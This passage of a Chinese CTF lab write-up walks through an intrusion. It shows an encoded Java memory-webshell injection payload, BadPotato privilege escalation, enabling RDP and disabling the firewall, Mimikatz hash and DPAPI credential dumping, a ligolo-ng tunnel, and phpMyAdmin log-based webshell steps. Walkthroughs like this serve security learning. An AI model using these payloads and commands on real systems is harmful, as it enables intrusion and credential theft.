HBDb25uZWN0aW9uCAENAQALaHR0cENoYW5uZWwBAAdyZXF1ZXN0AQAHc2Vzc2lvbgEADnNlcnZsZXRDb250ZXh0AQAOZ2V0SHR0cENoYW5uZWwIARMBAApnZXRSZXF1ZXN0CAEVAQAKZ2V0U2Vzc2lvbggBFwEAEWdldFNlcnZsZXRDb250ZXh0CAEZAQAGdGhpcyQwCAEbAQAYSHR0cENvbm5lY3Rpb24gbm90IGZvdW5kCAEdCgAbABcBAAljbGF6ekJ5dGUBAAJbQgEAC2RlZmluZUNsYXNzAQAaTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBAAVjbGF6egEAAmUxAQAVTGphdmEvbGFuZy9FeGNlcHRpb247AQABZQEAF0xqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7AQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7DAEpASoKANEBKwwA5QCFCgDRAS0MAJQAOwoAawEvDAANAAYKAAIBMQEADGRlY29kZUJhc2U2NAEAFihMamF2YS9sYW5nL1N0cmluZzspW0IMATMBNAoAAgE1AQAOZ3ppcERlY29tcHJlc3MBAAYoW0IpW0IMATcBOAoAAgE5CAEiBwEhAQARZ2V0RGVjbGFyZWRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7DAE9AT4KAGsBPwEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAcBQQEADXNldEFjY2Vzc2libGUBAAQoWilWDAFDAUQKAUIBRQEABmludm9rZQEAOShMamF2YS9sYW5nL09iamVjdDtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwBRwFICgFCAUkBAA9wcmludFN0YWNrVHJhY2UMAUsAGQoAGwFMAQAPZmlsdGVyQ2xhc3NOYW1lAQAMZGVjb2RlckNsYXNzAQAHZGVjb2RlcgEAB2lnbm9yZWQBAAliYXNlNjRTdHIBABRMamF2YS9sYW5nL0NsYXNzPCo+OwEAFnN1bi5taXNjLkJBU0U2NERlY29kZXIIAVQBAAdmb3JOYW1lDAFWAI0KAGsBVwEADGRlY29kZUJ1ZmZlcggBWQEACWdldE1ldGhvZAwBWwE+CgBrAVwBABBqYXZhLnV0aWwuQmFzZTY0CAFeAQAKZ2V0RGVjb2RlcggBYAEABmRlY29kZQgBYgEADmNvbXByZXNzZWREYXRhAQADb3V0AQAfTGphdmEvaW8vQnl0ZUFycmF5T3V0cHV0U3RyZWFtOwEAAmluAQAeTGphdmEvaW8vQnl0ZUFycmF5SW5wdXRTdHJlYW07AQAGdW5nemlwAQAfTGphdmEvdXRpbC96aXAvR1pJUElucHV0U3RyZWFtOwEABmJ1ZmZlcgEAHWphdmEvaW8vQnl0ZUFycmF5T3V0cHV0U3RyZWFtBwFsAQAcamF2YS9pby9CeXRlQXJyYXlJbnB1dFN0cmVhbQcBbgEAHWphdmEvdXRpbC96aXAvR1pJUElucHV0U3RyZWFtBwFwCgFtACwBAAUoW0IpVgwAFQFzCgFvAXQBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYMABUBdgoBcQF3AQAEcmVhZAEABShbQilJDAF5AXoKAXEBewEABXdyaXRlAQAHKFtCSUkpVgwBfQF+CgFtAX8BAAt0b0J5dGVBcnJheQEABCgpW0IMAYEBggoBbQGDAQADb2JqAQAJZmllbGROYW1lAQAFZmllbGQBABlMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQAEZ2V0RgEAPyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwwBiQGKCgACAYsBABdqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZAcBjQoBjgFFDACzAD8KAY4BkAEAHmphdmEvbGFuZy9Ob1N1Y2hGaWVsZEV4Y2VwdGlvbgcBkgEAIExqYXZhL2xhbmcvTm9TdWNoRmllbGRFeGNlcHRpb247AQAQZ2V0RGVjbGFyZWRGaWVsZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwwBlQGWCgBrAZcBAA1nZXRTdXBlcmNsYXNzDAGZAHQKAGsBmgoBkwAXAQAMdGFyZ2V0T2JqZWN0AQAKbWV0aG9kTmFtZQEAB21ldGhvZHMBABtbTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZ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";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>
```

```
加密器: JAVA_AES_BASE64
密码: 1
密钥: Iotqgktaxj
请求路径: /*
请求头: User-Agent: Vqjte
脚本类型: JSP
```



看了一眼有特权，直接特权 Potato 提权



添加用户和开启 RDP

```
C:\ProgramData\BadPotato.exe._obf.exe "reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f"
```



在这个地方输入，然后命令输入 `1` 就能执行，这样也能很好避免 `"` 闭合问题

```
go-flag{0BED88EE-825E-47D2-A50A-5A92595BDE3C}
```


好像是有杀软导致没办法很好修改注册表，就很烦，存到 `1.bat` 中

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
netsh advfirewall firewall add rule name="Allow RDP 3389" dir=in action=allow protocol=TCP localport=3389
netsh advfirewall set allprofiles state off
```

再次执行

```
C:\ProgramData\BadPotato.exe._obf.exe "C:\ProgramData\1.bat"
```



搞定了，大概率没有被 360 拦截，只是 `""` 引号闭合问题，导致没办法执行成功

## 内网信息收集

### Mimikatz

```
Administrator 08d6d31ce0d030cb18856e1ce07d0c82
```

### Fscan

```
(icmp) Target 10.0.0.50       is alive
[*] Icmp alive hosts len is: 1
10.0.0.50:3306 open
10.0.0.50:445 open
10.0.0.50:139 open
10.0.0.50:135 open
10.0.0.50:80 open
[*] alive ports len is: 5
start vulscan
[*] NetBios 10.0.0.50       WORKGROUP\WIN-AJIGQ5JSPVF           Windows Server 2016 Standard 14393
[*] WebTitle http://10.0.0.50          code:200 len:2307   title:站点创建成功-phpstudy for windows
```

### Winlogon

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARaE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

```
DefaultPassword    REG_SZ    WWcsuio123
LastUsedUsername    REG_SZ    administrator
```

### RDP

```
dir /a C:\Users\Administrator\AppData\Local\Microsoft\Credentials\*
```

没有凭证，但是 `systemprofile` 有凭证，解开：

```
dir /a C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\
```

```
mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\A1906B2ADB673AEA6E3ED4890E62F506" exit
```

```
guidMasterKey      : {173175c7-6cd1-4f1b-a20d-4e90cc6e249c}
```

```
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit
```

```
4ff515b910fbddb2d85de2ccc3b7a3785d036b7eb1976a19654b50708d64d30e1651a3a08ad114da8092fd110e09e8e675f5b98c8fb97857ca41260fb280a059
```

```
mimikatz.exe "dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\A1906B2ADB673AEA6E3ED4890E62F506 /masterkey:4ff515b910fbddb2d85de2ccc3b7a3785d036b7eb1976a19654b50708d64d30e1651a3a08ad114da8092fd110e09e8e675f5b98c8fb97857ca41260fb280a059" exit
```

```
WWcsuio123
```

## 内网穿透 - ligolo-ng

在跳板机

```
agent.exe -connect 172.16.233.2:9999 -ignore-cert
```

在 Kali

```
sudo ./proxy -selfcert --laddr "0.0.0.0:9999"
```

```
autoroute
```

## 10.0.0.50 - phpMyAdmin - FLAG 2 & FLAG 3



目录扫描只有 `phpmyadmin`，打开后试了一下弱口令 `root:cslab` 登录



得到 NULL，表示无法写入文件，换别的方法：全局日志写 shell

mysql > 5.0版本，那就可以使用日志写 shell

